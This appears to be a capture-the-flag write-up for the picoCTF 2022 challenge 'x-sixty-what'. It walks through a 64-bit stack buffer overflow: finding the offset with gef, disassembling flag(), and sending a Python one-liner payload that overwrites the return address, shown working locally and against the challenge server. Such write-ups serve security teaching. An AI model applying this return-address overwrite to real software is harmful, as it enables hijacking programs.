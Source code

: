 # x-sixty-what
## Description
- **Tags**:
    - picoCTF 2022
    - Binary Exploitation
    - x64

- **Author**:
    - Sanjay C
    - LT 'Syreal' Jones

Overflow x64 code

Most problems before this are 32-bit x86. Now we'll consider 64-bit x86 which is a little different! Overflow the buffer and change the return address to the flag function in this [program](https://artifacts.picoctf.net/c/193/vuln). [Download source](https://artifacts.picoctf.net/c/193/vuln.c).

```
nc saturn.picoctf.net 51487
```

## Exploration

Start by finding where we start to overflow. The biggest difference in x64 is that if a too large (*over simplificiation here) address attempts to overflow `$rip` that is blocked. This means that we need to search for our pattern in `$rsp` instead, given that it will be blocked from going into `$rip`.

```
$ gdb ./vuln.elf
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes (n=8)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
[+] Saved as '$_gef0'
gef➤  r <<< aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
gef➤  pattern search $rsp
[+] Searching for '$rsp'
[+] Found at offset 72 (little-endian search) likely
[+] Found at offset 65 (big-endian search)
```

Then we can find where the function we want to return to is:
```
gef➤  disas flag
Dump of assembler code for function flag:
   0x0000000000401236 <+0>:     endbr64
   0x000000000040123a <+4>:     push   rbp
   0x000000000040123b <+5>:     mov    rbp,rsp
   0x000000000040123e <+8>:     sub    rsp,0x50
   0x0000000000401242 <+12>:    lea    rsi,[rip+0xdbf]        # 0x402008
   0x0000000000401249 <+19>:    lea    rdi,[rip+0xdba]        # 0x40200a
   0x0000000000401250 <+26>:    call   0x401130 <fopen@plt>
...
```

Through some trial and error it is interesting that attempting to jump directly to the address of `flag()` does not work as expected. While debugging locally it is possible to see that the flag is correctly read into memory, however `printf()` fails in what appears to be some buffering internals. Taking the hints from the challenge, however, we can attempt to jump after the second (`push`) instruction and things work out...

```
$ python3 -c 'import sys; import struct; sys.stdout.buffer.write(b"A"*72 + struct.pack("<Q", 0x40123B))' | ./vuln.elf
Welcome to 64-bit. Give me a string that gets you the flag:
picoCTF{REDACTED}
Segmentation fault
```

Built out into a script and run on remote:
```
$ ./exploit_vuln.py saturn.picoctf.net 51487
picoCTF{REDACTED}
```